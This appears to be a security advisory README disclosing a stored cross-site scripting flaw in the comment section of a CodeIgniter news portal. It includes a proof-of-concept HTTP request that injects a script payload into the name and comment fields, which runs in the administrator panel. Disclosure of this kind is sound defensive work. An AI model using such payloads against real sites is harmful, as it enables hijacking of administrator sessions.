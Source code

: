 # News-Portal-Using-CodeIgniter
News Portal Using CodeIgniter

## Auditor

Shoaib Alam - [LinkedIn Profile](https://www.linkedin.com/in/shoaib-alam-b53843203/)

## Description

### Stored Cross-Site Scripting (XSS) Vulnerability in the Comment Section of the News Portal Application


The comment section of the news page is vulnerable to a stored Cross-Site Scripting (XSS) attack, allowing an attacker to inject malicious JavaScript code into the "message" and "name" fields of the comment form. This vulnerability arises when user input is not adequately validated or sanitized. When an administrator views the comments in the admin panel, the injected payload is executed in their browser context, leading to a range of security risks including session hijacking, unauthorized actions, and potential data breaches. This poses a significant threat to the integrity and confidentiality of user data and the overall security of the web application.

**Vulnerable Endpoint:** `/news/Welcome/post/9`  
**Vulnerable Parameter:** `name` & `comment`

## Proof of Concept (PoC)

The following HTTP request demonstrates the XSS vulnerability. This PoC illustrates how an attacker could exploit the vulnerability to execute arbitrary JavaScript in the victim's browser.

```http
POST /news/Welcome/comment HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/news/Welcome/post/9
Cookie: ci_session=blc02soj4p1oifj1am3gfiaokfjf8bdg
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

type=1&postid=9&name=%22%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E&email=&comment=%22%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E
